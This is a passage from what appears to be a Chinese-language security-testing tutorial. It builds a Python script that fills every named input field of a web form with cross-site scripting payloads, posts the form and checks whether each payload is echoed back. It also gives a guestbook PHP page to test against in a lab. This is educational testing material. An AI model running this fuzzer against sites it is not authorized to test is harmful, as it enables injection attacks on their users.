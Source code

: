 我们的目标是攻击页面中的每个输入参数，因此接下来，我们读取我们的目标页面：

```py
initial = requests.get(url)
```

然后，我们为我们在负载列表中放置的每个值创建一个循环：

```py
for payload in payloads:
```

然后，我们使用`BeautifulSoup`处理页面，这是一个允许我们根据标签和定义特征来切割页面的库。我们使用它来识别每个输入字段，以便选择名称，以便我们可以发送内容：

```py
for field in BeautifulSoup(initial.text, parse_only=SoupStrainer('input')):
          if field.has_attr('name'):
```

由于大多数网页中输入框的性质，任何名为`submit`的字段都不应被用于跨站脚本攻击，而是需要给予`submit`作为值，以便我们的攻击成功。我们创建一个`if`函数来检测是否是这种情况，使用`.lower()`函数轻松地考虑可能使用的大写值。如果该字段不用于验证提交，我们将其填充为当前使用的负载：

```py
if field['name'].lower() == "submit":
              d[field['name']] = "submit"
            else:
              d[field['name']] = payload
```

我们通过使用`requests`库将我们现在分配的值发送到目标页面的 post 请求中，就像我们之前做的那样：

```py
req = requests.post(url2, data=d)
```

然后加载将呈现我们内容的页面，并准备好用于检查结果函数：

```py
checkresult = requests.get(url3)
```

与之前的脚本类似，我们通过搜索页面上的字符串来检查我们的字符串是否成功，并在成功时打印结果。然后，我们为下一个负载重置字典：

```py
if payload in checkresult.text:
    print "Full string returned"
    print "Attack string: "+ payload
  d = {}
```

## 还有更多…

与之前一样，您可以修改此脚本以包含许多结果或从包含多个值的文件中读取。正如下面的示例中所示，Mozilla 的 FuzzDB 包含大量这些值。

以下是可以用来测试前面部分提供的脚本的设置。它们需要保存为提供的文件名才能正常工作，并与 MySQL 数据库一起使用以存储评论。

以下是名为`guestbook.php`的第一个接口页面：

```py
<?php

$my_rand = rand();

if (!isset($_COOKIE['sessionid'])){
  setcookie("sessionid", $my_rand, "10000000000", "/xss/easy/");}
?>

<form id="contact_form" action='addguestbook.php' method="post">
  <label>Name: <input class="textfield" name="name" type="text" value="" /></label>
  <label>Comment: <input class="textfield" name="comment" type="text" value="" /></label>
  <input type="submit" name="Submit" value="Submit"/> 
</form>

<strong><a href="viewguestbook.php">View Guestbook</a></strong>
```